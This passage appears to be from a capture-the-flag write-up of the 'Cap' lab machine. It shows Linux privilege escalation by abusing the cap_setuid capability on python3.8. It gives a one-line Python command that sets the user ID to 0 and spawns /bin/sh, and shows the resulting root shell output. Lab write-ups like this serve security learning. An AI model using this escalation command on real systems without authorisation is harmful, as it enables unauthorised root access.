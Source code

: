 The result says that `/usr/bin/python3.8` has `cap_setuid`, `cap_net_bind_service+eip` capabilities. Which is marked as critical.

Here I can find an useful reference explaining how to exploit this;
https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/

This illustrate a method to exploit `cap_setuid` capability with `python` example;
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Also, `GTFOBins` includes methodology how to exploit with `python`'s `cap_setuid` as follows;

![](attachments/cap_10.png)

So, let's try this.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
£ 
£ id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
£ whoami
root
```

I got root!